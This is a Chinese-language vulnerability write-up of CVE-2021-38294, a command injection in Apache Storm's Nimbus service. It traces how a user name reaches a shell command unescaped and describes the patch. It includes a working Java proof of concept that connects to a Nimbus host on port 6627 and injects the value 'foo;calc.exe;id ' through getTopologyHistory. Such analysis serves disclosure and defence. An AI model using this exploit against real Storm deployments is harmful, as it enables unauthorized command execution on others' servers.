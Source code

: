 - [CVE-2021-38294 ApacheStorm 命令注入漏洞](#cve-2021-38294-apachestorm-命令注入漏洞)
  - [影响版本](#影响版本)
  - [环境搭建](#环境搭建)
  - [原理分析](#原理分析)
    - [getTopologyHistory](#gettopologyhistory)
    - [getUnixGroups](#getunixgroups)
  - [漏洞复现](#漏洞复现)
  - [补丁](#补丁)
# CVE-2021-38294 ApacheStorm 命令注入漏洞
## 影响版本
1.x\~1.2.3,2.0.0 \~ 2.2.0    
## 环境搭建
参考CVE-2021-40865
## 原理分析
### getTopologyHistory 
Nimbus主节点在6627端口监听，并开放了一些服务接口，其中一个为`getTopologyHistory`获取用户拓扑历史，其接受一个String类型参数来获取该user的`TopologyHistory`。
![](1.png)
在`                if (user == null || isAdmin
                    || isUserPartOf(user, groups)
                    || isUserPartOf(user, adminGroups)
                    || topoLogUsers.contains(user)) `这个if分支中`user`参数被传入`isUserPartOf()`方法中,来判断该用户的所属。
### getUnixGroups
在`isUserPartOf(user)`中进入`userGroups(user)`中。
```java
    private boolean isUserPartOf(String user, Collection<String> groupsToCheck) throws IOException {
        Set<String> userGroups = new HashSet<>(userGroups(user));
```
然后通过`roupMapper.getGroups(user)`来获取该用户的用户组
```java
    private Set<String> userGroups(String user) throws IOException {
        if (user == null || user.isEmpty()) {
            return Collections.emptySet();
        }
        return groupMapper.getGroups(user);
    }
```
而`groupMapper`默认为`ShellBasedGroupsMapping`。
在`ShellBasedGroupsMapping#getGroups`中通过`getUnixGroups`来获取该用户所属组。
```java
    public Set<String> getGroups(String user) throws IOException {
        synchronized (this) {
            rotateIfNeeded();
            if (cachedGroups.containsKey(user)) {
                return cachedGroups.get(user);
            }
        }
        Set<String> groups = getUnixGroups(user);
```
在其中使用`shellCommandRunner.execCommand`执行系统命令,而参数则是使用`getGroupsForUserCommand`根据user来得到要执行的命令字符串。
```java
    private Set<String> getUnixGroups(final String user) throws IOException {
        String result;
        try {
            result = shellCommandRunner.execCommand(ShellUtils.getGroupsForUserCommand(user));
```
在`getGroupsForUserCommand`中直接把user参数拼接到了命令中造成了命令注入。
![](2.png)
## 漏洞复现
```java
import org.apache.storm.utils.NimbusClient;
import java.util.ArrayList;
import java.util.HashMap;
import java.util.List;

public class CVE_2021_38294 {

    public static void main(String[] args) {
        try {
            HashMap config = new HashMap();
            List<String> seeds = new ArrayList<String>();
            seeds.add("localhost");
            config.put("storm.thrift.transport", "org.apache.storm.security.auth.SimpleTransportPlugin");
            config.put("storm.thrift.socket.timeout.ms", 60000);
            config.put("nimbus.seeds", seeds);
            config.put("storm.nimbus.retry.times", 5);
            config.put("storm.nimbus.retry.interval.millis", 2000);
            config.put("storm.nimbus.retry.intervalceiling.millis", 60000);
            config.put("nimbus.thrift.port", 6627);
            config.put("nimbus.thrift.max_buffer_size", 1048576);
            config.put("nimbus.thrift.threads", 64);
            NimbusClient nimbusClient = new NimbusClient(config, "172.27.93.132", 6627);
            // send attack
            nimbusClient.getClient().getTopologyHistory("foo;calc.exe;id ");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
![](3.png)
## 补丁
从字符串拼接改成了用数组的方式传入,这样user只会作为id的参数执行而不会作为命令执行。
![](4.png)